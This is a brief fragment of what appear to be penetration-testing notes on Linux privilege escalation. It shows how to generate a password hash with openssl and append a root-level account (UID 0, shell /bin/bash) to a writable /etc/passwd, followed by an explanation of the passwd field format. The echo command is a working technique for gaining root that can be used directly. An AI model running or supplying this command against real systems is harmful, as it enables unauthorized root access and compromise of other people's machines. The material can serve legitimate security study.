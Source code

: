 - if write acces to `/etc/passwd`:
  
`openssl passwd -1 -salt [salt] [password]` - create hash of password (it's `1`, not `l`)

`echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:I am root:/root:/bin/bash' >> /etc/passwd`
username:hash_of_passwd OR x (if 'x' hash stored in `/etc/shadow`):UID:GID:comment_field:home_dir (if empty -> `/`):command (typically shell)

- 